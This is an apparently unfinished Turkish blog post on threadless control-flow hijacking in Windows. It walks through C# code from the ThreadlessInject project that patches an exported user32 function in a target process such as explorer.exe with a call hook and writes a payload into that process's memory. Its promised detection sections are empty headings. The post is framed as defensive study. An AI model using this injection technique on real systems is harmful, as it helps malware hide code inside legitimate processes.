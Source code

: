 ```yaml
---
layout: post
title: "Threadless Control Flow Hijacking Methods, Analysis and Detection"
categories: blue
---
```


Selam bugün staj kabulüm için araştırdığım ve kendisi için tespit mekanizmaları geliştirmeye çalışacağım control flow hijacking konusunu irdeleyeceğiz.

## İÇERİKLER
1. [Nedir bu hreadless Control Flow Hijacking ?](#nedir-bu-threadless-control-flow-hijacking-)
2. [Basit Bir Saldırı Örneği](#basit-bir-saldırı-örneğ)
3. [Basit Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları](#basit-saldırı-örneğine-karşı-statik-ve-dinamik-tespit-mekanizmaları)
4. [Karmaşık Bir Saldırı Örneği](#karmaşık-bir-saldırı-örneği)
5. [Karmaşık Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları](#basit-saldırı-örneğine-karşı-statik-ve-dinamik-tespit-mekanizmaları)
6. [Kapanış](#kapanış)


## Nedir bu Threadless Control Flow Hijacking ?

Türkçe "kontrol akışını ele geçirme" şeklinde çevirebiliriz. Anlaşıldığı üzere çook geniş bir saldırı spektrumundan bahsediyoruz bu saldırı türünün içine pwn tarafında bufferoverflow ile stack teki ret adresini ele geçirme yahut heapoverflow ile fonksiyon pointer larının üzerine shellcode adresimizi yazmak girebilir. Malware tarafında ise dümdüz hedef process in thread lerinden birini durdurup kendi ayarladığımız context i yükleyip shellcode umuzu çalıştırmak gibi fikirler bu saldırı vektörü altında toplanabilir. Kısaca programın olağan akışını durdurmak, zehirlemek yada değiştirmek gibi her türlü faaliyeti Control Flow Hijacking altında değerlendirebiliriz.

Bu yazıda ilgileneceğimiz control hijack metodları threadless yani process de ekstra bir thread açmadan, thread akışlarına müdahale etmeyen metodlar olacak. Mevcut bir thread in bir şekilde bizim istediğimiz şeyleri yapmasını sağlamalıyız. Bunun için kullanabileceğimiz taktikleri şu şekilde listeleyebiliriz:
 - İşlevi argümanları alıp başka bir fonksiyona call yada jmp ile gitmek olan bir fonksiyonun gitmeye çalıştığı adres i patch leyebiliriz
 - IAT daki api lere hook atabiliriz böylece mesela program dosya okumak için CreateFile api sini çağırmak istediğinde aslında bizim istediğimiz adresteki kodu çalıştırır
 - exception handler a hook atıp programın bir exception durumunda bizim istediğimiz adresteki kodu çalıştırmasını sağlayabiliriz
 - class sistemi kullanan bir dille derlenmişse program vtable lardaki fonksiyon adreslerini kendi çalıştırılmasını istediğimiz adresle değiştirebiliriz
 - process deki main module un kullandığı herhangi bir dll deki export edilen fonksiyon adreslerini zararlı kod adresi ile değiştirip mesela kullanıcının user32 deki MessageBox api sini çağırdığı zaman dll in bizim istediğimiz adresi çalıştırmasını sağlayabiliriz
 - bir fonksiyon pointer ı bulup adresini çalıştırılmasını istediğimiz shellcode adresi ile değiştirebiliriz

Şimdilik derleyebildiğim yöntemler bu şekilde. Kernel taraflı yöntemlerin de olduğuna eminim ama bunlar konusunda henüz bir bilgim yok.
Dilerseniz bu yöntemi kullanan ilk saldırı örneğimize geçelim ve yöntemi daha yakından tanıyalım.

## Basit Bir Saldırı Örneği

Basit saldırı örneği için [ThreadlessInject][https://github.com/CCob/ThreadlessInject/tree/master] deki injection kodunu kullanıcaz.
Burdaki fikir hedef process deki main module(exe) un çalıştıracağını bildiğimiz bir fonksiyonu gözümüze kestirip onu hook lamak. Bu ister main module deki bir fonksiyon olsun ister onun kullandığı dll lerdeki. Hook lıcaz.
Her açılışta exe nin yada diğer dll lerin process in virtual address space inde nerelerde olduğunu gözlememek istemediğimiz için (yada bunun malware yazarları için hiç pratik ve kolay olmadığı için) pdb file ına erişebildiğimiz yani sembollerine yani spesifik fonksiyonlarının hangi offsetlere veya rva lara yüklendiğini bildiğimiz dll veya exe lerin fonksiyonlarını hook lamak daha mantıklı ve çok daha kolay, daha da kolayı export edilmiş fonksiyonlarını hook lamak bunun için de windows api lerinden yararlanıcaz.
Bunun için öncelikle fonksiyonunu hook lamak istediğimiz module ün handle ını `GetModuleHandle` api si ile alıp o module un bu handle aracılığı ile hangi export edilmiş fonksiyonuna erişmek istiyorsak `GetProcAddress` api sine fonksiyon ismini verip export edilen fonksiyonun adresini cebe atıyoruz.
```csharp
string dll = "user32.dll";
string export = "TranslateAcceleratorW";
var hModule = GetModuleHandle(dll);
if (hModule == IntPtr.Zero)
    hModule = LoadLibrary(dll);
var exportAddress = GetProcAddress(hModule, export);
```
Burda ince bir ayrıntı var ondan bahsetmeden geçmeyelim. `GetModuleHandle` api sinin module handle ını bulamadığı durumda ki bu o anki process imizde bu module yok demek, o module ü `LoadLibrary` api si ile process imize yüklüyoruz. Bakın kafa karışıklığı olmasın burda yükleme yaptığımız process bizim process imiz yani malware process i hedef process değil. Hedef process de yüklü olan bir module malware process de yok ama bize o module deki fonksiyonun adres lazım e napıyoruz. Module u kendi process imize yükleyip bu sayede adresi elde ediyoruz. Windows un knownDLL listesinden (kernelbase.dll, kernel32.dll, user32.dll, ntdll.dll vs.) bir dll i hedef leyeceğiz çünkü bu listedeki dll ler genellikle her process de aynı base address e yükleniyor bu yüzden malware process imizdeki exportAddress %99 diğer process lerde de aynı fonksiyonu barındırıyor olacak. Eğer bir windows dll ine değil herhangi bir dll e hook atmamız gerekseydi adresi tespit etmek için hedef process de biraz daha iş görmemiz gerekecekti neyseki şuanki senaryoda kendi process imizden(malware process) hedef process deki hook adresimizi kolayca hesaplayabiliyoruz.

var status = OpenProcess(pids[i], out var hProcess);

```csharp
var status = OpenProcess(hedef_process_id, out var hProcess);
```
Hedef process memory sinde dolanabilmek için hedef process in handle ını alıyoruz.

```csharp
var loaderAddress = FindMemoryHole(
    hProcess,
    (ulong)exportAddress,
    ShellcodeLoader.Length + shellcode.Length);
```
Bu fonksiyonun amacı şu:
Hook attığımız adrese bir relative call instruction koyucaz bu call daha önceden allocate ettiğimiz bir bellek bölgesine götürücek bizi ve shellcode umuzda burda olacak neden shellcode u direkt hook attığımız adrese koymuyoruz diye soracak olursan sebebi hook attığımız adresteki fonksiyonun uzunluğu shellcode umuzdan daha küçük ise shellcode execute veya write iznimizin olmadığı bir bölgeye taşabilir buda yazma veya çalıştırma sırasında hata alacağımız anlamına gelir o yüzden hook atma prosüdürü hep bir relative jmp veya call ile başlar sonra trampoline fonksiyonu dediğimiz bir yönlendirici ile devam eder bu projede yazar trampoline fonksiyonu kullanmamış original byte ları hook fonksiyonunda düzeltmiş ve hook fonksiyonun sonunda hook attığımız adrese dönüşü sağlamış, tercih meselesi napcan.
Neyse amacı anlatmaya devam edeyim peki bu `FindMemoryHole` ne işe yarıyor? relative call ile gidebileceğimiz bir aralıkta bir bölgeyi allocate etmeye çalışıyor hudutlarımızı biliyoruz ve çalışıyoruz hesaaabııı.

```csharp
var originalBytes = Marshal.ReadInt64(exportAddress);// originalBytes = *exportAddress şeklinde düşünebilirsiniz burdaki işlemi
GenerateHook(originalBytes);
```
burda hook fonksiyonunun exportAddress deki instruction ları çalıştıktan sonra tekrar düzeltmesi için hardcoded yazılan hook fonksiyonunun içindeki placeholder byte ları exportAddress deki byte lar ile değiştiriyoruz daha önce stub yazmış olanlar olayı anladı. Anlamayanlarda projedeki `GenerateHook` fonksiyonuna şöyle bir bakınca anlayacaktır ne demek istediğimi konudan çok sapmamak için hook fonksiyonun iç mekaniğine çok girmemeyeyim diye düşündüm.

```csharp
ProtectVirtualMemory(
    hProcess,
    exportAddress,
    8,
    MemoryProtection.ExecuteReadWrite,
    out var oldProtect);

var relativeLoaderAddress = (int)(loaderAddress - ((ulong)exportAddress + 5));
var callOpCode = new byte[] { 0xe8, 0, 0, 0, 0 };

using var ms = new MemoryStream(callOpCode);
using var br = new BinaryWriter(ms);
br.Seek(1, SeekOrigin.Begin);
br.Write(relativeLoaderAddress);

status = WriteVirtualMemory(
    hProcess,
    exportAddress,
    callOpCode,
    out var bytesWritten);
```
Bu kısımda exportAddress e hook fonksiyonuna zıplayan relative call instruction ını yazıyoruz. Yukarda bahsettiğim gibi hook fonksiyonuna aslında burda olan byte ları yerleştirdiğimiz için bu yaramazlığımızı düzeltip programın hiçbir şey olmamış gibi çalışmaya devam etmesini sağlayabilecez.

```csharp
status = ProtectVirtualMemory(
    hProcess,
    (IntPtr)loaderAddress,
    (uint)payload.Length,
    MemoryProtection.ReadWrite,
    out oldProtect);

status = WriteVirtualMemory(
    hProcess,
    (IntPtr)loaderAddress,
    payload,
    out bytesWritten);

status = ProtectVirtualMemory(
    hProcess,
    (IntPtr)loaderAddress,
    (uint)payload.Length,
    oldProtect,
    out _);
```
Bu işlemlerle önce hook fonksiyonumuza tahsis ettiğimiz adrese(loaderAddress diye geçiyor kodda)(`FindMemoryHole` fonksiyonu ile allocate ettiğimiz adres) hook fonksiyonumuzu yazıyoruz.

explorer.exe nin kullandığı `TranslateAcceleratorW` api si mouse umuzu her hareket ettirdiğimizde tetikleniyor. hijack imizin başarısını da şöyle bir video ile görelim.


## Basit Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları

## Karmaşık Bir Saldırı Örneği

## Karmaşık Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları

## Kapanış